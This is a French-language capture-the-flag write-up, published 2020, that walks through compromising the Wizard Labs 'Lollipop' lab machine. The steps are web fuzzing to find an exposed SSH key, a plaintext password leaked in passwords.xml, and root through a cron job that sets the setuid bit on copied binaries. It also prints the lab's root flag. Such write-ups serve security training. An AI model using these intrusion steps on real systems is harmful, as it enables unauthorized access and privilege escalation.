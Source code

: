 ```yaml
---
title: Solution du CTF Lollipop de Wizard Labs
tags: [CTF, WizardLabs]
---
```


Lollipopshell
-------------

Pour arriver à la fin de ce CTF de *Wizard Labs* il aura fallut utiliser de bonnes wordlist et enumérer les fichiers et dossier sur le serveur web.  

Pour cela j'ai porté mon dévolu sur [les listes raft de fuzzdb](https://github.com/fuzzdb-project/fuzzdb/tree/master/discovery/predictable-filepaths/filename-dirname-bruteforce).  

On trouve ainsi un dossier caché *.ssh* avec la clé qui va avec :  

```plain
/index.html (Status: 200)
/mail.php (Status: 200)
/function.php (Status: 200)
/.ssh (Status: 301)
```

Et dans les scripts on découvre aussi un script *checker.php* qui demande à recevoir le résultat de 6\*6.  

Si on rentre un résultat non numérique on obtient une erreur 500 (page type d'Apache) avec un mail d'administration *mrl0llipop@localhost*.  

Je tiens à préciser que malgré tous mes efforts ce script ne semble pas vulnérable à la moindre injection.  

La clé SSH est malheureusement protégée par une passphrase. On est alors tenté d'utiliser l'utilitaire *ssh2john* pour tenter de la retrouver :  

```plain
$ /usr/share/john/ssh2john.py id_rsa 
id_rsa:$sshng$1$16$0AF431720D358A422BF9C1D77BDF72DF$1200$f5dce6fe7--- snip ---16ec902cb75a90ab0
```

Malheureusement cela n'aboutit nul part.  

En fouillant un peu plus on trouve le commentaire suivant en commentaire dans la page d'index :  

```html
<!--Todo : store passwords using a better way than xml files  -->
```

On bruteforce alors les extensions .xml et on trouve le fichier *passwords.xml* suivant :  

```html
<text><password>:3:!4]AFCH:3#D[%</password></text>
```

Tous ces éléments réunis nous permettent un accès SSH sur la machine en tant que *mrl0llipop*.  

En fouillant les binaires setuid du système je remarque un dossier où les binaires semblent *upgradés* (notez le *s* dans les permissions) à intervalle régulier :D   

```plain
mrl0llipop@Lollip0p:/suided_binaries$ ls -l
total 184
-rwxrwxrwx 1 root root  44304 Jan  6 09:26 mount
-rwxrwxrwx 1 root root 140944 Jan  6 09:25 sudo
mrl0llipop@Lollip0p:/suided_binaries$ ls -l
total 184
-rwsrwxrwx 1 root root  44304 Jan  6 09:26 mount
-rwsrwxrwx 1 root root 140944 Jan  6 09:25 sudo
```

Moi aussi je veux jouer, on va juste copier un *bash* dans ce dossier :  

```plain
mrl0llipop@Lollip0p:/suided_binaries$ ls -l
total 204
-rwsrwxrwx 1 root root  16664 Jan  8 02:20 devloop
-rwsrwxrwx 1 root root  44304 Jan  6 09:26 mount
-rwsrwxrwx 1 root root 140944 Jan  6 09:25 sudo
mrl0llipop@Lollip0p:/suided_binaries$ ./devloop
root@Lollip0p:/suided_binaries# cd /root
root@Lollip0p:/root# cat root.txt
030bd309b88360dc270d8760a212fb0b
root@Lollip0p:/root# crontab -l
# Edit this file to introduce tasks to be run by cron.
#
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command
* * * * * chown -R root.root /suided_binaries
* * * * * chmod -R 4777 /suided_binaries
```

Le plus dur aura été l'énumération :p

*Published November 17 2020 at 14:12*
